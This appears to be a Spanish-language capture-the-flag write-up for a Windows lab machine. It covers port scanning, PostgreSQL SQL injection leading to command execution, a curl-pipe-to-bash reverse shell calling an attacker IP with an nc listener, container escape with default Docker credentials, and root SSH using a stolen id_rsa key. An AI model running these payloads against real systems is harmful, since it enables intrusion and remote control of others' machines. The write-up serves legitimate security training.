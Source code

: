 ## Summary

Tags: #Windows #FTP #SSH #ID_RSA #Docker #Contenedor #HTTPS #PostgreSQL #ReverShell #Nmap #Curl 

- IP -> 10.10.10.236
- Ports -> TCP (21, 22, 443, 445), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 21 -> FileZilla ftpd
    - 22 -> OpenSSH for_windows_7.7
    - 443 -> Apache httpd 2.4.38

## Launchpad

-   [Launchpad](https://launchpad.net/ubuntu)
-   [RCE-Postgresql](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)
-   [Docker-Toolbox](https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts  # Escaneo de todos los puertos

❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash 
❯ ftp ❮IP❯             # Si el servidor nos lo permite nos podemos conectar como Anonymous sin password
	❯ binary          # Para poder descargar un archivo exe y que no nos de problemas
	❯ get ❮File❯      # Para descargar un archivo desde el FTP
```

```bash 
❯ openssl s_client -connect ❮dominio.com❯:443   # Para conectarnos al openssl e inspeccionar el certificado

# Agregamos el dominio encontrado al '/etc/hosts'
```

```bash 
# Investigamos la pagina y encontramos un 'Admin Panel', por lo que procedemos a ver si tiene inyecciones SQL

1. Primero probamos con una '

# Al momento de ingresar una ' nos muestra un error y que la DB es 'Pg = Postgresql'

2. Abrimos el 'Burpsuite' y buscamos en 'Google' como hacer inyecciones en Postgresql, por lo que encontramos que se puede hacer un RCE poe medio de la creacion de una tabla en la cual podemos inyectar comandos. 

# Lo siguiente lo haremos en sl 'Burpsuite'
❯ '; CREATE TABLE cmd_exec(cmd_output text);-- -     # Creamos la tabla 
❯ '; COPY cmd_exec FROM PROGRAM 'curl 10.10.14.26';-- -            # Ingresamos el comando a ejecutar y es para verificar si la maquina victima tiene conexion a nuestra maquina de atacante
```

## User

```
❯ '; COPY cmd_exec FROM PROGRAM 'curl http://10.10.14.26 | bash ';-- -  # Para que nos interprete el codigo y nos ejecute la revershell
```

```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar

❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

```bash 
❯ nc -nlvp 443  # Nos ponemos en esucha para recibir la revershell 
```

```bash 
# Ingresamos al contenedor que en este caso es Linux


❯ script /dev/null -c bash                               # Inicio del tratamiento de la consola 
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

❯ export TERM=xterm-256color                             # Para que la shell tenga colores 
	❯ source /etc/skel/.bashrc

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189  
```

```bash 
❯ ifconfig      # Mirar las interfaces y nos encontramos en un contenedor por la IP '172.17.0.2'

# Como en todo contendor debemos de mirar los puertos abiertos en la IP con la que tenemos conexion '172.17.0.1' 
❯ (echo ‘’ > /dev/tcp/172.16.0.1/22) 2>/dev/null && echo “[+] Puerto abierto” || echo “[+] Puerto cerrado”
```

```bash
❯  ssh docker@172.17.0.1        # Para conectarnos por ssh en el puerto default 22 del contenedor docker, las credenciales son la de defaul y las encontramos investigando en 'Google' buscando 'password docker-toolbox'
```

```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
```

```bash
❯ find  / -name user.txt 2>/dev/null               # Para buscar un archivo en el sistema desde la raiz
```

## Root

```bash 
Encontramos un dir '.ssh' en el dir de 'Administrator' del contenedor de docker. Copiamos su contenido en nuestra maquina de atacante en un archivo llamada 'id_rsa' y le damos el privilegio 600

❯ chmod 600 id_rsa                              # Para darle un permiso 600 a la id_rsa      
```

```bash
❯ ssh -i id_rsa Administrator@10.10.10.236      # Nos conectamos desde nuestra maquina de atacante por ssh teniendo un id_rsa con privilegio 600 al puerto 22 que se encuentra abierto en la maquina Windows
```

```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ ipconfig                                         # Nos muestra las interfaces y las direcciones IP de Windows
```